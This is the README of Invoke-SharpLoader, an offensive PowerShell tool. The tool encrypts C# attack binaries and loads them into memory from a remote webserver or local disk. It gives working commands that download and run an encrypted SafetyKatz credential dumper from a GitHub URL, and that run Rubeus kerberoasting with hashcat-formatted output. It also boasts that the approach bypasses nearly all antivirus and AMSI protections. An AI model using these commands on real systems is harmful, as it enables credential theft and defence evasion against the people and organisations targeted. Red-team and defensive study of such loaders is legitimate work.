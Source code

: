 # Invoke-SharpLoader
Load encrypted and compressed C# Code from a remote Webserver or from a local file straight to memory and execute it there.

Two scripts are used here. Invoke-SharpEncrypt can be used to encrypt existing C# files. To do this, the script has to be imported and then the following command can be issued:

Invoke-SharpEncrypt -file C:\CSharpFiles\SafetyKatz.exe -password S3cur3Th1sSh1t -outfile C:\CSharpEncrypted\SafetyKatz.enc

Only full paths to the file are accepted at this point. The encrypted files generated by Invoke-SharpEncrypt can then be hosted on a web server on the Internet or stored on the target system on disk.
Invoke-SharpLoader can be used to decrypt and execute the files in memory. Two examples demonstrate how to load a file from a remote webserver or from disk.

URL:
Invoke-SharpLoader -location https://raw.githubusercontent.com/S3cur3Th1sSh1t/Invoke-SharpLoader/master/EncryptedCSharp/SafetyKatz.enc -password S3cur3Th1sSh1t -noArgs

DISK:
Invoke-SharpLoader -location C:\EncryptedCSharp\Rubeus.enc -password S3cur3Th1sSh1t -argument kerberoast -argument2 "/format:hashcat"

This project was heavily inspired by Cn33liz p0wnedLoader repo here https://github.com/Cn33liz/p0wnedLoader. By encrypting own executables with a 
custom password and hosting them somewhere on the internet nearly all local and Proxy AV-Protections and AMSI can be bypassed. :-)
